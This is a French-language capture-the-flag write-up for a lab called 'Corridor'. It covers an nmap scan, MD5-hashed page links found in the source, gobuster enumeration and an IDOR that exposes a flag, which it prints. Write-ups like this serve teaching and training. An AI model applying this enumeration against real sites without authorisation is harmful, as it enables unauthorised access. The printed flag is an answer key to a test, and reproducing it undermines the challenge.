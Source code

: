 # Corridor

## What is the flag?

### Nmap Scan

```
Nmap scan report for 10.10.68.111
Host is up (0.27s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    Werkzeug httpd 2.0.3 (Python 3.10.2)
|_http-title: Corridor
```

### Exploit IDOR

Nous pouvois voir des hash sur le code source de la site inspectons les:

`view-source:http://10.10.245.63/`

```
    <map name="image-map">
        <area target="" alt="c4ca4238a0b923820dcc509a6f75849b" title="c4ca4238a0b923820dcc509a6f75849b" href="c4ca4238a0b923820dcc509a6f75849b" coords="257,893,258,332,325,351,325,860" shape="poly">
        <area target="" alt="c81e728d9d4c2f636f067f89cc14862c" title="c81e728d9d4c2f636f067f89cc14862c" href="c81e728d9d4c2f636f067f89cc14862c" coords="469,766,503,747,501,405,474,394" shape="poly">
        <area target="" alt="eccbc87e4b5ce2fe28308fd9f2a7baf3" title="eccbc87e4b5ce2fe28308fd9f2a7baf3" href="eccbc87e4b5ce2fe28308fd9f2a7baf3" coords="585,698,598,691,593,429,584,421" shape="poly">
        <area target="" alt="a87ff679a2f3e71d9181a67b7542122c" title="a87ff679a2f3e71d9181a67b7542122c" href="a87ff679a2f3e71d9181a67b7542122c" coords="650,658,644,437,658,652,655,437" shape="poly">
        <area target="" alt="e4da3b7fbbce2345d7772b0674a318d5" title="e4da3b7fbbce2345d7772b0674a318d5" href="e4da3b7fbbce2345d7772b0674a318d5" coords="692,637,690,455,695,628,695,467" shape="poly">
        <area target="" alt="1679091c5a880faf6fb5e6087eb1b2dc" title="1679091c5a880faf6fb5e6087eb1b2dc" href="1679091c5a880faf6fb5e6087eb1b2dc" coords="719,620,719,458,728,471,728,609" shape="poly">
        <area target="" alt="8f14e45fceea167a5a36dedd4bea2543" title="8f14e45fceea167a5a36dedd4bea2543" href="8f14e45fceea167a5a36dedd4bea2543" coords="857,612,933,610,936,456,852,455" shape="poly">
        <area target="" alt="c9f0f895fb98ab9159f51fd0297e236d" title="c9f0f895fb98ab9159f51fd0297e236d" href="c9f0f895fb98ab9159f51fd0297e236d" coords="1475,857,1473,354,1537,335,1541,901" shape="poly">
        <area target="" alt="45c48cce2e2d7fbdea1afc51c7c6ad26" title="45c48cce2e2d7fbdea1afc51c7c6ad26" href="45c48cce2e2d7fbdea1afc51c7c6ad26" coords="1324,766,1300,752,1303,401,1325,397" shape="poly">
        <area target="" alt="d3d9446802a44259755d38e6d163e820" title="d3d9446802a44259755d38e6d163e820" href="d3d9446802a44259755d38e6d163e820" coords="1202,695,1217,704,1222,423,1203,423" shape="poly">
        <area target="" alt="6512bd43d9caa6e02c990b0a82652dca" title="6512bd43d9caa6e02c990b0a82652dca" href="6512bd43d9caa6e02c990b0a82652dca" coords="1154,668,1146,661,1144,442,1157,442" shape="poly">
        <area target="" alt="c20ad4d76fe97759aa27a0c99bff6710" title="c20ad4d76fe97759aa27a0c99bff6710" href="c20ad4d76fe97759aa27a0c99bff6710" coords="1105,628,1116,633,1113,447,1102,447" shape="poly">
        <area target="" alt="c51ce410c124a10e0db5e4b97fc2af39" title="c51ce410c124a10e0db5e4b97fc2af39" href="c51ce410c124a10e0db5e4b97fc2af39" coords="1073,609,1081,620,1082,459,1073,463" shape="poly">
    </map>
```

Grâce à crackstation nous avons pu voir que la premère hash est égale à 1. 
J'ai donc crée une wordlist avec toutes les hash puis j'ai lancer gobuster et le résultat est le suivant:

```
/a87ff679a2f3e71d9181a67b7542122c (Status: 200) [Size: 632]
/8f14e45fceea167a5a36dedd4bea2543 (Status: 200) [Size: 632]
/c9f0f895fb98ab9159f51fd0297e236d (Status: 200) [Size: 632]
/1679091c5a880faf6fb5e6087eb1b2dc (Status: 200) [Size: 632]
/eccbc87e4b5ce2fe28308fd9f2a7baf3 (Status: 200) [Size: 632]
/c81e728d9d4c2f636f067f89cc14862c (Status: 200) [Size: 632]
/45c48cce2e2d7fbdea1afc51c7c6ad26 (Status: 200) [Size: 632]
/a87ff679a2f3e71d9181a67b7542122c (Status: 200) [Size: 632]
/c4ca4238a0b923820dcc509a6f75849b (Status: 200) [Size: 632]
/cfcd208495d565ef66e7dff9f98764da (Status: 200) [Size: 797]
/c20ad4d76fe97759aa27a0c99bff6710 (Status: 200) [Size: 632]
/d3d9446802a44259755d38e6d163e820 (Status: 200) [Size: 632]
/6512bd43d9caa6e02c990b0a82652dca (Status: 200) [Size: 632]
```
Nous pouvons voir une différence entre tous ces directory c'est la hash où est écrit Size: 797. En effet cette dir contient le flag que nous cherchons.


*http://10.10.245.63/cfcd208495d565ef66e7dff9f98764da*

**Flag:** `flag{2477ef02448ad9156661ac40a6b8862e}`



